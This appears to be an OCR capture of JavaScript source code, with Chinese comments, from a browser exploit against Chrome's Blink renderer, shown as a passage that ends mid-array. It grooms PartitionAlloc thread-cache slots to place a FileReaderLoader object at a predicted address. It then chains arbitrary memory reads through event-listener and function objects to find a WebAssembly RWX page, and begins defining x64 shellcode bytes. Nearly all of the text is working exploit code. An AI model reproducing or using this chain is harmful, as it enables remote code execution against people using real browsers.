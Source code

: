 ```javascript
	while (next_slot == 0) {
		ConsumeSlot();
		next_slot = cur;
	}

	// 消耗光 0x140 的 ThreadCache 
	// ThreadCache 消耗光后，就会去 PartitionRoot 申请新内存，PartitionRoot 的链表头
	// 就会发生变化
	while (cur == next_slot) {
		ConsumeSlot();
	}

	// 再次消耗光 ThreadCache
	// 确保之前被分配给 ThreadCache 的内存块，已经被分配到 FileReaderLoader 
	// allocate FileReaderLoader until cache is refilled
	let prev = cur;
	while (cur == prev) {
		ConsumeSlot();
	}
	
	let fileReaderLoaderPtr = next_slot;
	
	for (let i = 0; i < reader_arr.length; ++i) {
		reader_arr[i].onerror = wasmFuncA;
	}
	
	// alert(`predicted FileReaderLoader: (0x${next_slot.toString(16)})`);
	
	alert(reader_arr[0].onerror);
	const fileReaderLoader_client = BigInt(0x10);
	
	let fileReaderPtr = read64(
		fileReaderLoaderPtr + fileReaderLoader_client) - BigInt(0x80);
	
	const entries_1_eventListenerVec = BigInt(0x30);
	let vectorPtr = read64(fileReaderPtr + entries_1_eventListenerVec);
	let registeredEventListenerPtr = read64(vectorPtr);
	let eventListenerPtr = read64(registeredEventListenerPtr);
	let eventHandlerPtr = read64(eventListenerPtr + BigInt(0x28));
	let jsFunctionObjReferencePtr = read64(eventHandlerPtr + BigInt(0x8));
	
	let jsFunctionPtr = read64(jsFunctionObjReferencePtr) - BigInt(1);
	
	// alert(`jsFuntionPtr 0x${jsFunctionPtr.toString(16)}`);
	
	let base = jsFunctionPtr & BigInt(0xFFFFFFFF00000000);
	
	let sharedFuncInfoPtr =
		base + BigInt(low32(read64(jsFunctionPtr + BigInt(0x0C)))) - BigInt(1);
	// alert(`sharedFuncInfoPtr 0x${sharedFuncInfoPtr.toString(16)}`);
	
	let wasmExportedFunctionDataPtr =
	base + BigInt(low32(read64(sharedFuncInfoPtr + BigInt(0x4)))) - BigInt(1);
	// alert(`wasmExported 0x${wasmExportedFunctionDataPtr.toString(16)}`);
	
	let rwx_addr = read64(wasmExportedFunctionDataPtr + BigInt(0x4));
	
	alert(`RWX addr: (0x${rwx_addr.toString(16)})`);
	
	let shellcode = new Uint8Array([
	0x48, 0x31, 0xFF, 0x48, 0xF7, 0xE7, 0x65, 0x48, 0x8B, 0x58, 0x60, 0x48,
	0x8B, 0x5B, 0x18, 0x48, 0x8B, 0x5B, 0x20, 0x48, 0x8B, 0x1B, 0x48, 0x8B,
	0x1B, 0x48, 0x8B, 0x5B, 0x20, 0x49, 0x89, 0xD8, 0x8B, 0x5B, 0x3C, 0x4C,
```